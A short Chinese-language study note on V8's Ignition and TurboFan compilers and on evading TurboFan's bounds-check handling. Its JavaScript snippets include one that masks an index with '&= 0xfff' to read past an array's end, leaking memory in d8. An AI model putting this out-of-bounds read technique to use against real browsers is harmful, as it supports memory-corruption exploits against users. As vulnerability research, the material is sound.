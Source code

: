 ## v8编译结构



baseline编译器：Ignition
优化编译器：TurboFan

## v8编译优化绕过检查


首先我们安装turbolizer
这样可以查看优化可视化视图

### 长亭科技的文章

#### 新版更新
通过数组访问边界检查消除这个优化，先前已有很多V8 typer的bug被成功利用。(例如: CVE-2019-5782) 。因此，我们首先想到能否采用类似的方式利用这个漏洞。

然而，因为这种漏洞利用方式太过于方便，可以将一个很严苛的漏洞转变成数组任意越界，chrome开发者为了增强V8抵御此类漏洞的能力,决定去掉Simplified lowering过程中的边界检查优化。



#### 寻找节点



simplified lowering在优化时已经不再会移除 CheckBound这个节点了，但是它会把CheckBounds替换为一个CheckedUint32Bounds节点。如此一来，在Effect Control Linearization优化阶段，CheckedUint32Bounds又会被进一步替换为Uint32LessThan。根据Uint32LessThan比较的结果，TurboFan会产生一个 LoadElement节点或者是一个Unreachable节点



```
function opt(){
	let arr = [0, 1, 2, 3];
	let idx = 3;
	return arr[idx];
}

for(var i=0; i < 0x10000; i++)
    opt()

var x = opt()
console.log(x)

// output
$ ./d8 ./test.js
$ 3
```

因为 3<4，所以在没有任何边界检查情况下，最终的机器码直接加载了数组里的元素。


但是如果直接使用常数，会被删除

```
function opt() {
    let arr = [0, 1, 2, 3];
    let idx = 4;
    return arr[idx];
}

...

// output
$ ./d8 ./test.js
$ undefined
```


```
function opt(){
 let arr = [1.1, 2, 3, 5]

 let idx = 4;
 idx &= 0xfff;
 return arr[idx];
}

...

// output
$ ./d8 ./test.js
$ 8.714350797546e-311
```
所以用上述方法绕过
